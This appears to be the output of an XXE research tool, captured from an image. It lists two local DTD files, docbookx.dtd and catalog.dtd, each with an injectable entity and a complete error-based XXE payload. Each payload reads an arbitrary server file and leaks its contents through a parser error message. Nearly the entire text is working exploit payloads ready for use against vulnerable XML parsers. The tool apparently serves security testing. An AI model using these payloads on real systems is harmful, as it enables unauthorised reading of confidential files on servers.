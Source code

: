 # DTD founds
**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/yelp-dtd/docbookx.dtd`

**Injectable entity:** `ISOamsa`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/yelp-dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `publicIdentifier`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % publicIdentifier '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 
